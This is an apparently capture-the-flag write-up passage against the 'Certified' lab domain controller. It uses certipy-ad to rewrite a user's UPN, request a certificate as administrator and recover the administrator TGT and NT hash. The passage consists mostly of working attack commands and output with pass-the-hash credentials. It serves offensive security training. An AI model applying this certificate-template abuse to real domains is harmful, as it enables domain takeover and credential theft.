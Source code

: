 ![](Assets/Pasted%20image%2020250707133334.png)

![](Assets/Pasted%20image%2020250707133740.png)

```bash
┌──(root㉿n0m4d)-[/host_data]
└─# faketime "$(ntpdate -q DC01.certified.htb | cut -d ' ' -f 1,2)" certipy-ad req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@certified.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

```bash
┌──(root㉿n0m4d)-[/host_data]
└─# certipy-ad account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.10.11.41
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'

```

![](Assets/Pasted%20image%2020250707134046.png)

```bash
┌──(root㉿n0m4d)-[/host_data]
└─# faketime "$(ntpdate -q DC01.certified.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certified.htb'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34

```
